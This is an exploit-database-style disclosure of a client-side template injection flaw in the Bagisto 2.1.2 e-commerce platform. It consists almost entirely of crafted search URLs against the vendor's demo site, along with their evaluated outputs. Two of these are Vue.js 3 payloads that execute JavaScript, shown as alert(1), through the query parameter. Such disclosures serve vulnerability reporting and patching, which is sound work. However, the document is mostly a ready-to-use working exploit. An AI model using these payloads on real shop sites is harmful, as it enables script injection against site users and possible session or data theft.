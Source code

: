 # Exploit Title: Bagisto 2.1.2 Client-Side Template Injection(CSTI)
# Date: 06/18/2024
# Exploit Author: tmrswrr
# Vendor Homepage: https://forums.bagisto.com/
# Version: 2.1.2
# Tested on: https://demo.bagisto.com/


https://demo.bagisto.com/bagisto-common/search?query={{7*7}}

49

https://demo.bagisto.com/bagisto-common/search?query={{'a'.toUpperCase()}}

A

https://demo.bagisto.com/bagisto/search?query={{ Object.keys(this) }}

[ "_", "onSubmit", "onInvalidSubmit", "lazyImages", "animateBoxes" ]

> Payloads for VueJS 3

https://demo.bagisto.com/bagisto/search?query={{_openBlock.constructor('alert(1)')()}}
https://demo.bagisto.com/bagisto/search?query={{-function(){this.alert(1)}()}}

> You will be see alert button

